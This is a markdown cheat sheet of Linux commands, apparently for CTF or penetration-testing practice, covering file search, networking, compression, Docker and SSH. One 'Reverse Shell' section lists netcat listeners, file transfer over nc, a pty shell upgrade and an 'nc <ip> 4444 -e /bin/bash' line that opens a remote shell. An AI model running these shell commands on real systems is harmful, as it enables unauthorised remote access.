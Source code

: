 ## Search and Navigation
- `pwd` : Display the current working directory.
- `lsblk` : List mounted disks and partitions.
- `locate <file_name>` : Search for a file in the system.
- `which <command_name>` : Show the path of a command's executable.
- `history` : Display the history of executed commands.
- `find / -name "*...*" 2>/dev/null`: Search a file in the system 
- `tldr <tool>`: Display exemples of use for different tools

## Networking & Services
- `telnet <host> 80` : Test connection to a service.
- `finger @<ip>` : List the users on a remote machine.
- `finger fabiano@<ip>` : Get specific information about a user.
- `wget -r -np -nH --cut-dirs=0 http://192.168.1.100:8000/` : Download all files/folders from a directory hosted on a Python web server.
- `ss -tulpn`: Display all the open port.

## System
- `kill {pid}`: Kill a process.
- `export VAR=value` : Create or modify an environment variable and make it available to child processes.

## Crypto & Certificates
- `openssl x509 -in key.pem -text -noout` : Analyze a X.509 certificate.
- `gpg --homedir /your/path/to/gpg_key -d file.gpg` : Decrypt a GPG-encrypted file (requires the corresponding private key or passphrase).  
- `gpg --encrypt -r <recipient> file.txt` : Encrypt a file for a specific recipient using their public key.

## Databases--homedir
- `sqlite3 filedb.sqlite` : Start an SQLite session on a `.sqlite` file.

## File
- `file <file_name>` : Display the file type.
- `ln -s /path/to/target /path/to/symlink`: Creat a symlink.

## Reverse Shell
- `python3 -c 'import pty; pty.spawn("/bin/bash")'` : Upgrade a reverse shell to a fully interactive shell.
- `nc -lvnp 4444`: Open port 4444
- `nc <ip> 4444 > file.txt`: Connect to a port on another machine and save the received data into file.txt 
- `nc -lvnp 4444 < file.txt`: Listen on port 4444 and send the contents of file.txt to any connected client.
- `nc <ip> 4444 -e /bin/bash`: Connect to the reverse shell with nc

## Compression & Decompression
- `tar -cf archive.tar folder/` : Create a TAR archive without compression.  
- `tar -xf archive.tar` : Extract a TAR archive without compression.  
- `tar -czf archive.tar.gz folder/` : Create a TAR archive compressed with Gzip.  
- `tar -xzf archive.tar.gz` : Extract a TAR archive compressed with Gzip.  
- `tar -cjf archive.tar.bz2 folder/` : Create a TAR archive compressed with Bzip2.  
- `tar -xjf archive.tar.bz2` : Extract a TAR archive compressed with Bzip2.  
- `tar -cJf archive.tar.xz folder/` : Create a TAR archive compressed with XZ.  
- `tar -xJf archive.tar.xz` : Extract a TAR archive compressed with XZ.  
- `gzip file.txt` : Compress a single file with Gzip, replacing the original file.  
- `gunzip file.txt.gz` : Decompress a Gzip file.  
- `bzip2 file.txt` : Compress a single file with Bzip2, replacing the original file.  
- `bunzip2 file.txt.bz2` : Decompress a Bzip2 file.  
- `xz file.txt` : Compress a single file with XZ, replacing the original file.  
- `unxz file.txt.xz` : Decompress an XZ file.  
- `zip -r archive.zip folder/` : Create a ZIP archive containing a folder and its contents. 
- `unzip archive.zip` : Extract the contents of a ZIP archive.  

## Docker
- `docker ps` : List all running containers.
- `docker ps -a` : List all containers (running and stopped).
- `docker images` : List all available Docker images.
- `docker build -t <image_name> .` : Build an image from a Dockerfile in the current directory.
- `docker run -it --rm <image_name>` : Run a container interactively and remove it after exit.
- `docker run -d --name <container_name> <image_name>` : Run a container in detached mode with a specific name.
- `docker exec -it <container_name> /bin/bash` : Open an interactive shell inside a running container.
- `docker stop <container_name>` : Stop a running container.
- `docker start <container_name>` : Start a stopped container.
- `docker restart <container_name>` : Restart a container.
- `docker rm <container_name>` : Remove a stopped container.
- `docker rmi <image_name>` : Remove a Docker image.
- `docker logs <container_name>` : Show the logs of a container.
- `docker inspect <container_name>` : Show detailed information about a container.
- `docker cp <container_name>:/path/in/container /path/on/host` : Copy a file from a container to the host.
- `docker cp /path/on/host <container_name>:/path/in/container` : Copy a file from the host to a container.
- `docker-compose up -d` : Start all services defined in a `docker-compose.yml` in detached mode.
- `docker-compose down` : Stop and remove containers, networks, and volumes created by `docker-compose up`.
- `docker system prune -a` : Remove all stopped containers, unused images, and unused networks.

## SSH

- `chmod 600 id_rsa`: Restricts permissions so only the owner can read/write the private key (600: 110 000 000 = rw- --- ---).
- `ssh -i id_rsa root@<ip>`: Connect as root using the private key.



